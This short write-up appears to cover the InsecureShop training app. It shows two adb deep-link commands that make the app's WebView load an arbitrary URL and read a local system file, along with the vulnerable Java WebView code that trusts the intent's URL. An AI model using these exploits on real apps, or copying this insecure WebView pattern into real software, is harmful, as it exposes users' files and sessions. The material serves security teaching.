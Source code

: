 **Exploit via adb to load arbitrary URL:**

```bash
adb shell am start -a android.intent.action.VIEW -d 'insecureshop://com.insecureshop/web?url=http://example.com'
```

**Exploit via adb to read system files:**

```bash
adb shell am start -a android.intent.action.VIEW -d 'insecureshop://com.insecureshop/web?url=file:///etc/hosts'
```

**Code Snippet with Vulnerabilities:**

```java
WebView webView = findViewById(R.id.webview);
webView.getSettings().setJavaScriptEnabled(true);
webView.getSettings().setAllowUniversalAccessFromFileURLs(true);

Uri uri = getIntent().getData();
if (uri != null) {
    String url = uri.getQueryParameter("url");
    if (url != null) {
        webView.loadUrl(url);
    }
}
```
